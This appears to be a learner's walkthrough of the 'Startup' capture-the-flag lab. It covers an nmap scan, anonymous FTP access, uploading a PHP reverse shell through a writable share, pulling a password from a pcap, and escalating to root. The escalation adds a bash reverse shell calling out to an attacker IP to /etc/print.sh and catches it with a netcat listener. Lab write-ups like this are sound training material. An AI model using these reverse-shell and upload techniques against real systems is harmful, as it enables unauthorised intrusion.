




# Startup

To find out what is on the server, we will have to run an nmap scan on the IP address. I will be using the following command:

```csharp
nmap -T4 -A 10.10.201.52 -oN nmap.txt
```

After the scan is done, we can see that port 21 (usually for FTP) is open:

```csharp
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
```

These files look interesting, so I will download them. I following [this website](https://stackoverflow.com/questions/113886/how-to-recursively-download-a-folder-via-ftp-on-linux) to find out how to download files from ftp recursively, instead of one-by-one. This is the command I entered:

```csharp
wget -r ftp://anonymous:@10.10.201.52
```

I then had 3 items in my local directory: an image, a text file, and a directory called "ftp". I now have to find any useful information from these files. I noticed that in the text file, called "notice.txt, there is a name being used:

> Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.

I did get lost a bit here. I knew we had to upload a file to the ftp directory. If you look above, the ftp directory is able to be read and posted to. That connected with the idea that we can access the ftp files on [http://10.10.201.52/files/](http://10.10.201.52/files/), means that we can upload the php file and then access it through the website. For this, we will have to use a php-reverse-shell.php. I had gotten this hint by looking at the write-up at [this website](https://www.badtothepwn.com/2021/01/startup/). I uploaded the php-reverse-shell.php to the ftp directory using the ftp command line. I then went to the website, and then got a shell:

 (1) (1) (1) (1).png>)

Using netcat, we can send and receive information. Here we are able to send linux commands. I found the recipe file and it was in the root directory of the system.



I now have to find a way to get more forward in the system. I have found a pcap file that looks suspicious.

 (1) (1) (1).png>)

I will have to download it to see where to go from there. I realized that using net cat from the server to my own machine, I would be able to send this file to myself. I used [this website](https://superuser.com/questions/98089/sending-file-via-netcat) to know the command for what to run on both sides. I now have the file downloaded onto my own machine. After getting a hint from [this website](https://hackofalltrades.dev/tryhackmes-startup-walkthrough/), I realized that I would have to look through the packets to find the password. I then found it in the data of a packet.



From here, I can use it to login to the user "lennie". I then used ssh to connect to the server using that username:

 (1) (1).png>)

In this directory, there was the file "user.txt". Looking in this, gets us an answer to one of the questions for this room.



Now, I have to find a way to get to root. I did need some help here again. I then referred back to the same website and noticed that I would have to edit a file located in /etc/print.sh. Viewing this website, I realized that I have to add a reverse bash shell to this file. This would make the file look like:

```csharp
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.2.54.229/1234 0>&1
echo "Done!"
```

I will then have to run netcat on my machine, that way I am ready for the netcat connection. Running "nc -vlnp 1234" will allow my machine to be open to a connection through netcat. After a couple minutes, I then got a connection to the root user.



I then had root and also the final flag needed to finish the room.
